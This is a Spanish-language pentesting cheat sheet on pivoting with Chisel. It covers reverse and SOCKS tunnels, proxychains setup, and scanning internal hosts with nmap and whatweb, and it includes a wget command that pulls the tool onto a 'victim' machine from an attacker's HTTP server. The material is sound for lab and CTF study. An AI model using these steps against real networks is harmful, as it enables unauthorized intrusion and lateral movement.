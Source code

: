 # Pivoting con Chisel 

Tags: #Chisel #PortForwarding #LocalForwarding #DinamicForwarding #Pivoting 

## Local Port Forwarding 

Nos permite redirigir todo el trafico entrante de un puerto local hacia un puerto remoto.

* **Server -> Windows** 
* **Cliente -> Kali**

#### Forma 1 de descarga
Ingresamos a la pagina para descargarnos 'Chisel'
```python 
❯ https://github.com/jpillora/chisel > Releases > 'chisel_1.9.1_linux_amd64.gz' 
❯ gunzip chisel.gz
❯ chmod +x chisel
```

#### Forma 2 de descarga

1. Podemos clonarlo a nuestra maquina victima 
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

2. Debemos transferirlo a la maquina victima mediante un servidor HTTP 
```bash 
❯ python3 -m http.server 80    # Maquina de atacante 
❯ wget http://IP/chisel        # Maquina victima 
```

#### Forma de ejecutar el Chisel 

* De esta manera nos podemos traer un puerto especifico
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:<Port-Local-a-Abrir>:<IP-Local>:<Port-Traemos> # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
	# Port-Local = Puerto que vamos a traer de la maquina victima
	# IP-Local = IP del Localhost de la maquina victima 
	# Port-Traemos = Puerto que vamos a abrir en nuestra maquina
```

* De esta manera nos crea un túnel desde la maquina de atacante hacia la maquina victima
```bash
❯ ./chisel server --reverse -p 1234                                             # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:socks                                      # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante y nos crea un tunel para llegar a la maquina victima 
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nvim /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

### Comandos con Proxychain

Forma de verificar y de como debemos de ir colocando los comandos en nuestra maquina de atacante.
* Siempre debemos de usar **'proxychains'** antes de cada comando
```bash 
# NMAP
❯ seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n ❮Target IP❯ 2>&1 | grep "tcp open"      # Proxychains nos ayudara que el comando pase por el tunel creado por chisel 
	# P = Tareas en paralelo
❯ proxychains nmap --top-ports 500 --open -T5 -v -n <IP> -sT -Pn -oG allports 2>&1 | grep -vE "timeout|OK"
❯ proxychains nmap -sT -Pn -sCV -p22,.. <IP> -oN Targeted

# WHATWEB
❯ proxychains whatweb ❮Target IP❯     # Escaneo con whatweb a la maquina victima 
```

## Dinamic Port Forwarding 

Modificaremos:
```bash
❯ nvim /etc/proxychains.conf                            # Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080                              # Haremos que la conexion para nuestra maquina se efectue en el puerto 1080
```

```bash
❯ ssh < user>@< IP> -D 1080                             # Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado.
❯ proxychains vncviewer -passwd secret 127.0.0.1:5901   # Nos conectamos por vncviewer y nos arrojara el cuadro remoto de la conexion (5901=puerto remoto expuesto en la maquina victima)

	# secret -> Archivo que contiene la passwd para la conexion
```